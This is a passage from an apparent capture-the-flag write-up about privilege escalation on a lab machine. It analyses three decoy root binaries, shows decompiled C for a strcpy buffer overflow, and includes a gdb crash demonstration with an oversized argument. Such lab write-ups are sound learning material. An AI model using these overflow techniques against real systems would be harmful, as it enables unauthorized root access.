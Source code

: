 while enumerating the machine, there's a directory named `/nothing_to_see_here/` inside the /root of the filesytem. There's a directory inside that as well named `/nothing_to_see_here/choose_wisely/` where we have three more directories named `door1`, `door2` and `door3` containing a binary named `r00t` inside all of them.

#### Binaries
1. First Binary
here's the `strings` output of first binary

```shell-session
Good job, stand by, executing root shell...
BUHAHAHA NOOB!
/sbin/reboot
```
this binary will simply reboot the target machine.

2. Second Binary
`strings` output of second binary

```shell-session
2 MINUTE HARD MODE LOL
/bin/chmod 600 /bin/ls
/bin/chmod 777 /bin/ls
```
this binary will change the permission of the `ls` binary

3. Third Binary
Simply running strings didn't get any interesting result, so here's the source of the main function.
```c
int main(int argc,char **argv) {
  int iVar1;
  char buf [256];
  char local_110 [268];
  
  if (argc == 1) {
    printf("Usage: %s input\n",*argv);
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  strcpy(local_110,argv[1]);
  iVar1 = printf("%s",local_110);
  return iVar1;
}
```

turns out that this is a simple buffer overflow vulnerable binary, which we have to exploit in order to get the root shell. Beware while working with these binaries.

### Segmentation fault PoC
```shell-session
(gdb) run $(python -c "print 'A'*269")
Starting program: /nothing_to_see_here/choose_wisely/door3/r00t $(python -c "print 'A'*269")

Program received signal SIGSEGV, Segmentation fault.
0xb7e40041 in ?? () from /lib/i386-linux-gnu/libc.so.6
```
